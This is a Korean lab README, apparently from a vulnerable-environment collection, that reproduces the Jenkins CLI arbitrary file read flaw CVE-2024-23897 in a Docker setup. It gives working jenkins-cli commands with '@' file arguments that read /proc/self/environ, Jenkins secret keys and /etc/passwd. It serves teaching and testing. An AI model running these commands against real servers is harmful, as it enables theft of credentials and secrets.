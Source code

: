 # CLI를 통한 Jenkins 임의 파일 읽기(CVE-2024-23897)

[중국어버전(Chinese version)](README.zh-cn.md)

Jenkins는 오픈소스 자동화 서버입니다.

Jenkins는 CLI 명령을 처리할 때 args4j 라이브러리를 사용하여 Jenkins 컨트롤러에서 명령 인수와 옵션을 구문 분석합니다. 이 명령 구문 분석기는 인수의 @ 문자 뒤에 오는 파일 경로를 파일 내용으로 대체하는 기능(expandAtFiles)을 가지고 있으며, 이를 통해 공격자는 Jenkins 서버에서 임의 파일을 읽을 수 있습니다.

이 취약점은 Jenkins 2.441 이전 버전에 영향을 미칩니다.


참고:

- <https://www.jenkins.io/security/advisory/2024-01-24/#SECURITY-3314>
- <https://mp.weixin.qq.com/s/2a4NXRkrXBDhcL9gZ3XQyw>

## 취약점 발생 환경

Jenkins 서버 2.441을 시작하려면 다음 명령을 실행하세요.

```
docker compose up -d
```

서버가 시작된 후 http://your-ip:8080/ 을 통해 Jenkins 서버에 액세스할 수 있습니다. 기본 관리자의 사용자 이름과 비밀번호는`admin`과 `vulhub`.


## 취약점 공격(익스플로잇)

먼저 http://localhost:8080/jnlpJars/jenkins-cli.jar 을 통해 명령줄 클라이언트 jenkins-cli.jar 를 다운로드해야 합니다.

/proc/self/environ 파일을 읽어 Jenkins 기본 디렉터리인 JENKINS_HOME=/var/jenkins_home 을 가져옵니다.

```
java -jar jenkins-cli.jar -s http://localhost:8080/ -http help 1 "@/proc/self/environ"
```

(사진1)


이 명령을 사용하면 secrets.key 또는 master.key와 같은 민감한 파일을 익명으로 검색할 수 있습니다(명령줄에서 오류가 발생하면 파일의 첫 번째 줄만 읽을 수 있습니다).

```
java -jar jenkins-cli.jar -s http://localhost:8080/ -http help 1 "@/var/jenkins_home/secret.key"
```

(사진2)

```
java -jar jenkins-cli.jar -s http://localhost:8080/ -http help 1 "@/var/jenkins_home/secrets/master.key"
```

(사진3)

"익명 읽기 액세스 허용"이 켜져 있으므로 전체 콘텐츠도 읽을 수 있습니다. 파일:

```
java -jar jenkins-cli.jar -s http://localhost:8080/ -http connect-node "@/etc/passwd"
```

![](4.png)
